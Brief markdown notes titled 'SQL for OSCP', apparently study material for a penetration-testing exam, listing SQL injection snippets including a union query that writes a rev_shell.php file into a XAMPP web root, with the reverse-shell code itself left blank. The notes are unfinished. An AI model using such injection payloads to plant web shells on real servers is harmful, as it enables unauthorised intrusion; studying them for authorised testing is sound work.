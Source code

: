 # SQL for OSCP

* select @@version
* select IF\(MID\(x,x,x\) = y,y,y\);
* Getting reverse shell
  * ?id=769 union all select 1,2,3,4,"",6 into OUTFILE 'c:/xampp/htdocs/rev\_shell.php'
  * this is the syntax, now just we need a php reverse shell code on liner.
  * 


